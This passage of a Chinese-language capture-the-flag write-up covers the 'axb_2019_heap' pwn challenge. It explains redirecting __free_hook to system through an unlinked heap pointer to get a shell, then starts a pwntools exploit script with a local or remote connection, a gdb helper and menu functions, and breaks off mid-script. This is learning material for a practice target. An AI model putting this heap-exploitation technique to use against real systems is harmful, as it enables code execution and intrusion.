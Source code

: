 
![](./axb-2019-heap/image_12.png)

![](./axb-2019-heap/image_13.png)

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;这样修改过后，由于chunk0_ptr = chunk0_ptr[3] = __free_hook_addr，只需要在chunk0_ptr处填充system_addr，则可以实现__free_hook内容被修改为system_addr；

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;调用即可得到shell；

![](./axb-2019-heap/image_14.png)

&ensp;&ensp;&ensp;&ensp;exp如下：

```Python
# coding:utf-8
from glob import glob
from os import system
from random import SystemRandom
from pwn import *
context.log_level = 'debug'

proc_name = 'axb_2019_heap'
islocal = 1
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
elf = ELF(proc_name)

if islocal:
    p = process(proc_name)
else:
    p = remote('node4.buuoj.cn', 28198)

def debug(addr, PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr)))

def add(index, size, content):
    p.recvuntil(">> ")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":\n")
    p.sendline(str(size))
    p.recvuntil(": \n")
    p.sendline(content)

def delete(index):
```